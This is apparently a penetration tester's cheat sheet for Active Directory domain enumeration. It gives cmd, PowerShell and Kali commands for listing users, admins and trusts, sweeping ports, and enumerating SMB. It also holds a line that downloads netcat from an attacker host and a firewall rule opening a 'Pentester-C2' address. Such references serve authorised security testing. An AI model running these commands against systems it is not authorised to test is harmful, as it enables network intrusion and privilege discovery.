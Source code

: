 # Domain Enumeration

## Command Tools (cmd.exe)

Display Networking Info
```CMD
ipconfig /all
```
Display Domain
```CMD
echo %USERDOMAIN%
    net config workstation/server
```
Display Domain Controller
```CMD
echo %logonserver%
```
Display Domain Password Policy
```CMD
net accounts /domain
```
Display DC Address, Domain Name, Roles
```CMD
wmic ntdomain
```
Display All Domain Users
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
```
Display All Domain Groups
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname
```
Display All Domain Computers
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
```
View Domain User Info
```CMD
net user /domain
 net user pentestuser /domain
```
Display Domain Admin Users
```CMD
net group “Domain Admins” /domain
```
View All Hosts in Domain/Workgroup
```CMD
net view
```
Display Network Shares
```CMD
net share
```
Display Domain Trust Info
```CMD
nltest
 nltest /finduser:sweppler
 nltest /dclist:mydomain
 nltest /trusted_domains
```

## PowerShell Tools

Ping Sweeper
```PowerShell
 1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_ | Select-String ttl}
```
Port Sweeper
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```
Sweep Range of IPs for Single Port
```PowerShell
foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}
```
Sweep IPs and Ports
```PowerShell
1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
```
Test Egress Filtering
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open" } 2>$null
```
Display Domain Admins
```PowerShell
([adsisearcher]"(&(objectClass=User)(admincount=1))").FindAll().Properties.samaccountname
```
Web Client to Download Files (eg NetCat)
```PowerShell
wget "http://10.10.10.10/nc.exe" -outfile "c:\nc.exe"
```
Get Firewall Rules
```PowerShell
Get-NetFirewallRule -all | Out-GridView
 Get-NetFirewallRule -all | Export-csv <file_path.csv>
```
Add Firewall Rule
```PowerShell
New-NetFirewallRule -Action Allow -DisplayName Pentester-C2 -RemoteAddress <IPADDR>
```

 ## Linux/Kali Tools

 SMB Enumeration Tools
 ```bash
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```

Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
```bash
nbtscan 192.168.1.0/24
```

Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing
```bash
enum4linux -a target-ip
```

Fingerprint SMB Version
```bash
smbclient -L //192.168.1.100 
```

Find open SMB Shares in Nmap
```bash
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24   
```

Enumerate SMB Users in Nmap
```bash
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
```


Enumerate SMB Using Samrdump Python Impacket

```bash
python /usr/share/doc/python-impacket-doc/examples
/samrdump.py 192.168.XXX.XXX
```


ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
https://github.com/trustedsec/ridenum


Metasploit RID Cycling

```bash
use auxiliary/scanner/smb/smb_lookupsid
```

https://github.com/SecureAuthCorp/impacket

https://www.hackingarticles.in/impacket-guide-smb-msrpc/

 https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/

## Domain Enumeration Resources

* Information dumper via LDAP: https://github.com/dirkjanm/ldapdomaindump
* Integrated DNS dumping by any authenticated user: https://github.com/dirkjanm/adidnsdump
* Advanced Discovery of Privileged Accounts: https://github.com/cyberark/ACLight
* Detailed Active Directory Recon Tool: https://github.com/sense-of-security/ADRecon
* Powershell AD Enumeration: https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf
* Data collector tool: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html